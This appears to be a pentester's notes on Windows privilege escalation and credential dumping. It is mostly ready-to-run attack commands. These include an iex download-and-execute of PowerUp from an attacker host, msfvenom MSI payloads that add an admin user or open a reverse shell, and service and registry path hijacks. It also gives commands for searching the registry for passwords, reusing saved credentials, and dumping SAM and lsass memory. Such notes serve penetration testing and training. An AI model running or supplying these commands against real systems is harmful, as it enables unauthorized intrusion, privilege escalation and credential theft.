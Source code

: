 ## RunasCs.exe
Windows script to run specific processes under a different user account
```powershell
PS > .\RunasCs.exe $Username $Password $Command
```
Command can be like `msfvenom reverse shell`
# Processes
Check running processes, could hint at possible VM machine, prompting [[VM Escape]].
# Services
## Service
- Check all services with `sc query`
```cmd
> sc.exe query state=all
```
- Query configuration of a service
```powershell
PS > sc qc <service>
```
- Check access
## Access Check 
- Check `<user>` access to a particular  `service`
```powershell
PS > accesschk /accepteula -uwcqv <user> <service>
```
## Service Permissions
# PowerUp.ps1
```powershell
PS > iex (iwr -usebasicparsing http://<IP>:<PORT>/PowerUp.ps1)
PS > Invoke-AllChecks
```
# Dangerous Settings
## #AlwaysInstallElevated 
Allows to install/run executable with elevated privileges. 
- Create super-user
```shell-session
$ msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi-nouac -o alwe.msi #No uac format
$ msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi -o alwe.msi 
```
>**!! NOTE:** Using the msiexec the uac wont be prompted
- Create elevated reverse-shell
```shell-session
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f msi -o reverse.msi
```
Install it on the vulnerable system:
```powershell
PS > msiexec /quiet /qn /i C:\path\to\executable.msi
```
## #service_change_config 
If the service runs with `SYSTEM` privileges and we can change its config, change the binary path of the service to our malicious reverse shell and restart it.
```powershell
> sc config <service> binpath= "\"C:\Path\to\rev-shell""
> net start <service>
```
## #unquoted-service-path 
If the service runs with `SYSTEM` privileges and its path is unquoted, check folder permissions to create a script at the vulnerable path.
### Tools
1. [[AccessChk]]
2. [[ICACLS]]
## Registry Permission
If the registry permissions allow to modify, change service path from here.
```powershell
> accesschk /accepteula -uvwqk HKLM\path\to\service
HKLM\System\CurrentControlSet\Services\regsvc
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
        KEY_ALL_ACCESS
  RW BUILTIN\Administrators
        KEY_ALL_ACCESS
  RW NT AUTHORITY\INTERACTIVE
        KEY_ALL_ACCESS

> reg add HKLM\path\to\service /v ImagePath /t REG_EXPAND_SZ /d C:\path\to\shell.exe /f
```
## Password in Registry
The registry can be searched for keys and values that contain the word "password"
```powershell
PS > reg query HKLM /f password /t REG_SZ /s
```
## Saved Credentials
List any saved credentials and use them to run script:
```powershell
PS > cmdkey /list
PS > runas /savecred /user:<user> C:\path\to\script
```

# Local System
If not connected to domain, extract #SAM-registry-hive with [[reg.exe]] 
>Note: Need CMD with admin privilege.
![[reg.exe#Save registry]]

## Dumping LSA Secrets/SAM Remotely  ![[CrackMapExec#Dump LSA/SAM Remotely]] 
## Dumping #lsass Process Memory
### Using Task Manager (GUI)
"Create Dump File" of Local Security Authority Process (LSAP) from Task Manager. It gets saved in `C:\Users\<user>\AppData\Local\Temp`. 
### Using `rundll32.exe`
- On CMD:
```powershell
PS > tasklist /svc
```
- On Powershell: 
```PowerShell
PS > Get-Process lsass
PS > rundll32 C:\windows\system32\comsvcs.dll, MiniDump <PID> <destination> full
```
#### Tools
- [[pypykatz]]